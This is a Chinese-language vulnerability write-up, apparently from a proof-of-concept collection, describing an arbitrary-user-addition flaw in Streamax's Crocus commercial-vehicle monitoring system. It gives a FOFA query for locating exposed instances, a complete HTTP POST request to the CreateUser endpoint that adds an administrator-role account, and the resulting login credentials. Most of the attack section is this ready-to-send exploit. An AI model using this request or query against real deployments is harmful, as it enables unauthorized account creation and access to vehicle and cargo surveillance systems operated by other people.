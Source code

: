 # 深圳市锐明技术股份有限公司Crocus系统存在任意用户添加漏洞

# 一、漏洞简介
锐明技术作为一家专注于AI和视频技术的商用车智能物联（AIoT）解决方案提供商，Crocus系统是其核心产品之一。Crocus系统旨在利用人工智能、高清视频、大数据和自动驾驶技术，帮助商用车减少交通事故和货物丢失，提高企业或车队的运营效率。通过车载摄像头、毫米波雷达等传感器，实现对车辆周围环境的实时感知和监控，提高驾驶安全性。利用AI技术，系统能够识别车辆和行人的身份，并分析驾驶员的驾驶行为，及时提醒驾驶员注意潜在风险。Crocus系统能够实时监控货箱状态，包括货物是否丢失、货箱是否关闭等，并通过3D检测技术实现更精准的货物识别和管理。深圳市锐明技术股份有限公司Crocus系统存在任意用户添加漏洞

# 二、影响版本
+ Crocus系统

# 三、资产测绘
+ fofa`body="/ThirdResource/respond/respond.min.js" && title="Crocus"`
+ 特征

![1720274332352-c9c6a280-a643-4bac-95f0-0f7942a72149.png](./img/G83rnMK_DVPT5oUJ/1720274332352-c9c6a280-a643-4bac-95f0-0f7942a72149-345699.png)

# 四、漏洞复现
```http
POST /RoleUser.do?Action=CreateUser HTTP/1.1
Host: 
X-Requested-With: XMLHttpRequest
Token: d2Vic2VjOjE3MjQwNjk4NzE5NDk=
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=5420BDDEB39984240BE700F2E755F2F9; Saffron.U=VUlEPTImVU49d2Vic2VjJkdJRD0xNzI0MDY5ODcxOTQ5MSZSSUQ9MSZNPUJNYXAmSU5TPTE=
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Length: 243

UserID=&RoleID=1&DirName=%E6%A0%B9%E7%9B%AE%E5%BD%95&DirPower=1&GroupPower=1&GroupPowerName=crocus-center(81)&UserName=d2Jz&Password=ed5b11f0310676df5b25b140d8aab20e&ConfirmPassword=ed5b11f0310676df5b25b140d8aab20e&TelPhone=&Email=wbs%40qq.com
```

![1724151622084-63d6b6f3-0307-46dd-93b7-2d5a96cbec88.png](./img/G83rnMK_DVPT5oUJ/1724151622084-63d6b6f3-0307-46dd-93b7-2d5a96cbec88-504456.png)

```http
wbs/QWEqwe123登录
```



> 更新: 2024-09-06 02:24:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kvyw6n7ou52f1ui6>